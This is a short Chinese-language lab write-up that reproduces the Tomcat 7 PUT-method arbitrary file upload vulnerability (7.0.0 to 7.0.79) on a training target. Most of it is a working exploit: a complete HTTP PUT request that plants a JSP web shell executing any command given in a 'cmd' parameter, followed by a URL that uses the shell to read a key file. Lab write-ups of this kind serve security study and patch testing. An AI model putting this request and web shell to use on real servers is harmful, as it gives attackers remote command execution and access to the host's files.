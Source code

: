 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/120  
复现版本：Tomcat 7.0.79

# 0x01 环境搭建
无

# 0x02 利用条件
无

# 0x03 影响版本
7.0.0 <= Tomcat <= 7.0.79

# 0x04 漏洞复现
攻击环境：kali2020

访问目标地址，burp抓包，改包如下：  
```
PUT /cmd.jsp// HTTP/1.1
Host: 219.153.49.228:45174
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 313

<%
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
%>
```
Send后，返回如下，返回“HTTP/1.1 201 Created”表示文件创建成功  
![image](./f0.png)  
访问如下URL：http://219.153.49.228:45174/cmd.jsp?cmd=cat%20/key.txt 后，返回执行命令后的结果  
![image](./f1.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
